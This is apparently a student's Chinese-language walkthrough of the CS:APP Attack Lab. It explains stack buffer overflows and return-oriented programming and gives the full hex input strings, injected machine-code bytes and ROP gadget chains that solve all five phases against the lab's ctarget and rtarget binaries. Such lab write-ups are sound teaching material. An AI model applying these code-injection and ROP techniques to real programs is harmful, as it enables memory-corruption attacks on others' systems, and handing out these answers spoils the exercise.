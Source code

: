 # Attack lab 实验解析

## 文件内容

本次实验需要好好看官网的 writeup，里面有很详细的介绍和提示

首先本次实验分为两个部分

- 利用栈溢出注入代码进行攻击
- 利用 gadgets，消除栈不可执行和栈地址随机化的保护实现代码攻击

对于两种攻击方式先进行简单解释：

c语言对于数组的引用没有相应的越界检查，而且局部变量和状态信息（例如保存的寄存器的值，以及函数调用后的下一步执行的指令地址）保存在栈中，所以当数组越界以后，对于原先栈中的保存信息进行写操作时，就会导致代码的执行逻辑收到攻击，发生没有预想的变化。

实验有几个文件：

- hex2raw 将 16 进制的顺序字符转化为 gets() 输入的字符串，实现对于缓冲区的显式写入

- farm.c 可以在这里找到这种所需要的 gadgets

- ctarget 第一部分实验的可执行文件

- rtarget 第二部分实验的可执行文件

## 实验部分一

根据汇编可以得到如下的地址信息：

> touch1 首地址 0x4017c0
> 
> touch2 首地址 0x4017ec
> 
> touch3 首地址 0x4018fa
> 
> cookie 0x59b997fa
> 
> 分配buffer后的栈顶指针地址 0x5561dc78
> 
> 分配buffer前的栈顶指针地址 0x5561dca8

### phase1

首先了解到 ctarget 会调用 test 方法，在 test 方法中调用 getBuf，查看 getBuf 的汇编可以知道

对于栈指针的下移 40 个字节，只需要输入 48 个字节，后 8 个字节就是函数调用后，下一步要执行的指令的地址，所以将 touch1 函数的指令首地址写入，那么当 getBuf 调用完了以后，程序会去执行 touch1 方法， 实验完成

所以栈中应该呈现的数据形式：

> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00
> c0 17 40 00

### phase2

这里对于 phase1 来说，只是多了一个穿参数的操作，我们理想的调用情况应该是，字符输入完以后，函数跳转至执行 参数传入，然后再调用 touch2，由于栈是可执行的，所以我们可以将 getbuf执行后的返回地址 重写成栈的地址，然后通过栈中我们注入的编码好的指令进行传参，最后跳转至 touch2.

注意到 touch2 中要求传入的参数的值为 cookie，且下一步应该是调用 touch2 所以应该要执行的指令为：

```s
movq    $0x59b997fa,%rdi
pushq    $0x004017ec
retq
```

转化为二进制：

```
48 c7 c7 fa 97 b9 59     /* mov    $0x59b997fa,%rdi */
68 ec 17 40 00           /* pushq  $0x4017ec */
c3                       /* retq */
```

可以将传参的指令写到栈顶，然后在 40 个字节后面重写写入栈顶地址，这样就可以达到整个调用链的状态

所以可以将输入的字符串整理为：

> 48 c7 c7 fa 97 b9 59    */\* mov    $0x59b997fa,%rdi \*/*
> 
> 68 ec 17 40 00          */\* pushq  $0x4017ec \*/*
> 
> c3                      */\* retq \*/*
> 
> 00 00 00
> 
> 00 00 00 00 00
> 
> 00 00 00 00 00 00 00 00 00
> 
> 00 00 00 00 00 00 00 00 00 00
> 
> 78 dc 61 55 00 00 00 00

### phase3

本题和 phase3 差不多，只不过将传入的参数换成了一个字符串，也就是一个 char * 指针，同时可以调试的时候可以看到 40 个字节其实不太安全，后面会覆盖掉传入的参数，那么可以将 字符串的写入换到 test 返回地址后面，其他情况和 phase2 类似，所以答案可以如下所示：

> 48 c7 c7 a8 dc 61 55    */\* mov    $0x5561dca8,%rdi \*/*
> 
> 68 fa 18 40 00  */\* pushq  $0x4018fa \*/*
> 
> c3                      */\* retq \*/*
> 
> 00 00 00
> 
> 00 00 00 00 00
> 
> 00 00 00 00 00 00 00 00 00
> 
> 00 00 00 00 00 00 00 00 00 00
> 
> 78 dc 61 55 00 00 00 00   
> 
> 35 39 62 39 39 37 66 61 00

## 实验部分二

### phase4

要求用 ROP 攻击方法实现 phase2 的效果

因此输入的字符串应该先填充 40 字节 然后修改更高字节的栈地址为不同的 gadgets 实现想要的操作，因为要实现的效果单纯就是去 farm 的反汇编去找对应的指令，感觉和前面两个没什么区别，只需要在代码区找到前面我们手写的 汇编语言就好（当然一些数据要通过栈存取），所以就没有专门去找，直接参考了别人找到的地址操作就可以，答案：

> 00 00 00 00 00 00 00 00 00 00
> 
> 00 00 00 00 00 00 00 00 00 00
> 
> 00 00 00 00 00 00 00 00 00 00
> 
> 00 00 00 00 00 00 00 00 00 00
> 
> ab 19 40 00 00 00 00 00
> 
> fa 97 b9 59 00 00 00 00
> 
> a2 19 40 00 00 00 00 00
> 
> ec 17 40 00 00 00 00 00

### phase5

这道题的实现效果和 phase3 一样，慢慢找并且断点调试栈指针的位置和值，就可以得到最后的答案，其实还是挺难的，我找了很久，实在不耐烦，就去看了被人的解析，最后也算明白了答案，贴一下最后的结果：

> 51 51 51 51 51 51 51 51 51 51
> 51 51 51 51 51 51 51 51 51 51
> 51 51 51 51 51 51 51 51 51 51
> 51 51 51 51 51 51 51 51 51 51
> ad 1a 40 00 00 00 00 00
> d8 19 40 00 00 00 00 00
> a2 19 40 00 00 00 00 00
> fa 18 40 00 00 00 00 00
> 31 31 31 31 31 31 31 31 31 31
> 31 31 31 31 31 31 31 31 31 31
> 31 31 31 31 31 31 31 31 31 31
> 31
> 35 39 62 39 39 37 66 61 00

## 小结

总的来说比 bomb 还是要简单不少的，基本的思路都有，实现方式也不算复杂，就是第一部分中，其实是可以把跳转的执行地址放到栈里的，我们就可以把自己写的代码通过字符注入栈中，通过溢出的栈修改跳转位置，跳转到我们的输入的地址，然后程序就会按照我们写的去跑。第二部分，由于栈是不可执行的，利用retq 的特性，可以通过已经在代码区编好的指令去实现我们想要的结果，但是比较难匹配 gadgets